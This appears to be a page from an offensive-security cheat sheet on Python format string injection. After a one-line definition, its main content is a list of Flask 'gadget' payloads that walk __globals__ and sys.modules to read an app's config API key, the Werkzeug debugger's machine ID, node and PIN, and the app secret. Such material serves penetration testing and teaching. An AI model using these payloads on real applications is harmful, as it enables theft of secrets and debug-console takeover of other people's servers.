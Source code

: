 ```yaml
---
title: "Format String"
description: "Python Format String"
lead: "Python Format String"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "python"
weight: 620
toc: true
---
```


## Definition

A **format string** vulnerability in Python occurs when user input is directly passed into a string formatting operation, such as `%s` or `{}` in `printf`-style or `.format()` methods, without proper sanitization, potentially allowing an attacker to perform unintended operations or disclose memory contents.

## Gadgets

### Flask

```python
{self.__init__.__globals__[config][API_KEY]}
{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug]._machine_id}
{ua.__class__.__init__.__globals__[t].sys.modules[werkzeug.debug].uuid._node}
{ua.__class__.__init__.__globals__[t].sys.modules[threading]._active[%s]._target.__self__.app.pin}
{ua.__class__.__init__.__globals__[t].sys.modules[threading]._active[%s]._target.__self__.app.secret}
```

## References

- [https://podalirius.net/fr/articles/python-format-string-vulnerabilities/](https://podalirius.net/fr/articles/python-format-string-vulnerabilities/)
- [https://vozec.fr/writeups/tweedle-dum-dee/](https://vozec.fr/writeups/tweedle-dum-dee/)